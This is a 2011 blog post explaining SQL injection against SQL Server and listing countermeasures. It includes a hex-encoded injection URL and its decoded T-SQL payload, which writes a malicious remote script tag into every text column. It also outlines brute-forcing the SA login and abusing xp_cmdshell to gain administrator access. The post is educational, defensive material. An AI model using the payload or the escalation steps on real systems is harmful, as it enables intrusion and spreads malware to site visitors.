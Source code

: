 ```yaml
---
layout: post
date:   2011-01-15
title:  "Protecting against SQL Injection attacks"
permalink: ./blog/index.php/2011/01/15/protecting-against-sql-injection-attacks/
tags:
    - T-SQL Programming
    - Security      
    - SQL Injection
    - Security
    - Database Administration
    - Database Design
    - T-SQL Programming
    - Code Samples
    - Coding Practices
    - Development
    - SQL Server
comments: false
---
```

In a nutshell, an SQL injection attack is one where malicious code is passed to an instance of SQL Server for parsing and execution through a vulnerable application.  Although most SQL injection attacks can come from the web (having a larger "target audience") even machines connected to an organisation's network can pose a potential threat to the entire infrastructure.  Moreover, the applications do not necessarily have to be web-based ones.

An SQL Injection attack performed through a website can be as simple as replacing an application's user input parameters (which an application developer would have failed to validate for values, length, data ranges, etc.) with malicious SQL code.  The resultant actions can vary from simple data manipulation to more complex escalation of privilege - see examples below.

--------------------

#### Example 1 - Unauthorised access ####

A malicious user can modify the input parameters of a form as shown in the below image to gain access to a system.

![Example 1 - Unauthorised access](/assets/article_files/2011-01-15-protecting-against-sql-injection-attacks/sql_injection_unathorised_access.jpg)

--------------------

#### Example 2 - View unauthorised information ####

The below image shows how an authenticated system user can view unauthorised information using SQL injection techniques.

![Example 2 - View unauthorised information](/assets/article_files/2011-01-15-protecting-against-sql-injection-attacks/sql_injection_unathorised_view.jpg)

--------------------

#### Example 3 - Altering data ####

Another SQL injection technique commonly used is the passing of HEX strings to the SQL Server DBMS through vulnerable applications.  Basically, a website URL which accepts an input parameter can be replaced by something similar to the below (abridged) sample:

``` text
.../orderitem.asp?IT=GM-204;DECLARE%20@S%20NVARCHAR(4000);SET%20@S=CAST(0x44004500...006F007200%20AS%20NVARCHAR(4000));EXEC(@S);--
```

Decoding that binary data which is cast to a varchar yields the following (formatted for readability purposes):

``` sql
DECLARE @T varchar(255), @C varchar(255)
DECLARE Table_Cursor FOR
    select a.name, b.name
    from sysobjects a, syscolumns b
    where a.id=b.id and a.xtype='u'
    and(b.xtype=99 or b.xtype=35 or b.xtype=231 or b.xtype=167)
OPEN Table_Cursor
FETCH NEXT FROM Table_Cursor INTO @T, @C
WHILE(@@FETCH_STATUS=0)
BEGIN
    EXEC(<'UPDATE [' + @T + '] SET [' + @C + '] = RTRIM(CONVERT(VARCHAR, [' + @C + '])) + ''&lt;script src="http://somebadsite.cn/badscript.js"&gt;&lt;/script&gt;''')
    FETCH NEXT FROM Table_Cursor INTO @T, @C
END
CLOSE Table_Cursor
DEALLOCATE Table_Cursor
```

The script finds all text columns in the database and updates them with URL's to other web sites.  This is only possible if the login which impersonates the website/application has permissions to modify the data in the database.

Her are some references with updated listings of malicious URLs:

* [ASCII Encoded Binary String Automated SQL Injection](http://www.bloombit.com/Articles/2008/05/ASCII-Encoded-Binary-String-Automated-SQL-Injection.aspx#attack-description)
* [SQL attacks inject government sites in US, UK](http://www.theregister.co.uk/2008/08/07/new_sql_attacks/)
* [Cleanup in isle 3 please. Asprox lying around](http://isc.sans.org/diary.html?storyid=4840)
* [Cyberattacks Now Target Governments](http://www.certmag.com/read.php?in=3812)

--------------------

#### Example 4 - Escalating privileges ####

So far the examples have focused on successful SQL injection attacks localised to the website's database.  A maliciously crafted SQL statement can, if the database, DBMS and service are not configured securely, gain access to the host machine and potentially access other machines on the infrastructure.  The following steps demonstrate one way this is achievable:

1. Scan the network to gain an understanding of the possible vulnerable SQL Server machine.
2. Perform a brute force attack against any SQL Servers identified to test for weak passwords on the 'SA' login.
3. Connect to one of the machines using the "cracked" credentials and, using the SQL Server extended stored procedure "xp_cmdshell", create a Windows account with Administrative privileges on the server.  This is possible if the SQL Server service account is running under one of the privileged built-in accounts or is a member of the Local Administrators.
4. Once administrative access is gained, using other tools, any Cached Credentials can be extracted from the machine.
5. The hacked-into machine can then be used to elevate the privileges to a Domain Administrator.

--------------------

#### Possible solutions and countermeasures ####

Countermeasures include (but are not limited to):

1. Write secure application code.
2. Test all website/application inputs for SQL injection vulnerabilities.
3. Implement the principle of least privilege at all layers of the solution (i.e. client, application, business, database, etc.).
4. Deploy websites/applications using separate accounts for reading and writing/updating data.
5. Use stored procedures to access data.
6. Do not build unchecked dynamic SQL strings.
7. Log user activity.
8. Periodically retest all website/application inputs for SQL injection vulnerabilities.
9. More...

SQL injection attacks can only be prevented by following best practices and employing secure programming techniques.  Ongoing monitoring, detection, and pro-active defensive methods should also be utilised within the various layers of any web application.

Finally, another two fine examples of SQL injection attacks:

![Beat the Speed Cameras](/assets/article_files/2011-01-15-protecting-against-sql-injection-attacks/sql_injection_speed_camera.jpg)

![Bobby Tables](/assets/article_files/2011-01-15-protecting-against-sql-injection-attacks/sql_injection_bobby_tables.jpg)
